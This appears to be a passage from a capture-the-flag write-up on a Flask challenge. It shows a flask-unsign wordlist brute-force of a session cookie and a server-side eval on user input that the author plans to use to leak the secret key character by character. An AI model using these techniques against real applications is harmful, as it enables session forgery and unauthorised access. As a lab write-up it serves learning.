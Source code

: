 
```
{'user': 'guest'}
```

Unfortunatly, cracking it this leads to nothing :

```
└─$ flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie 'eyJ1c2VyIjoiZ3Vlc3QifQ.ZALvtw.w_CnIot
[*] Session decodes to: {'user': 'guest'}
[*] Starting brute-forcer with 8 threads..
[!] Failed to find secret key after 14344392 attempts.nd
```

After checking the code :

```py
member_infos=eval("%s[%s]" % (array,member))
```

We can see that using `eval` function, we can extract the `SECRETKEY` like the follwing :

```

In [1]: SECRETKEY = "hello"

In [3]: SECRETKEY[0]
Out[3]: 'h'

In [3]: 

```

Performing first request gives us :

<img src="./3.png"
     alt="Markdown Monster icon"
     style="
     width: 80%;
     diplay: box;"
/>
